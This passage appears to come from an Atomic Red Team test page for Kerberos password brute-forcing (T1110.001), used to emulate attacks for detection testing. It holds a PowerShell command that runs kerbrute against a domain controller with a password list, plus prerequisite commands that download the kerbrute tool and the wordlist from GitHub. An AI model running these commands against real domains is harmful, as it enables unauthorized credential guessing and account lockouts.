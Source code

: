 **auto_generated_guid:** 59dbeb1a-79a7-4c2a-baf4-46d0f4c761c4

#### Inputs:

| Name             | Description                              | Type   | Default Value      |
| ---------------- | ---------------------------------------- | ------ | ------------------ |
| domaincontroller | Domain controller where test will be run | string | $ENV:userdnsdomain |
| domain           | Domain where you will be testing         | string | $ENV:userdomain    |

#### Attack Commands: Run with `powershell`!

```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
.\kerbrute.exe bruteuser --dc #{domaincontroller} -d #{domain} $env:temp\bruteuser.txt TestUser1
```

#### Dependencies: Run with `powershell`!

##### Description: kerbrute.exe must exist in PathToAtomicsFolder\..\ExternalPayloads

##### Check Prereq Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"
```

##### Description: bruteuser.txt must exist in PathToAtomicsFolder\..\ExternalPayloads

##### Check Prereq Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\bruteuser.txt"){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1110.001/src/bruteuser.txt?raw=true" -outfile "PathToAtomicsFolder\..\ExternalPayloads\bruteuser.txt"
```

<br/>
<br/>
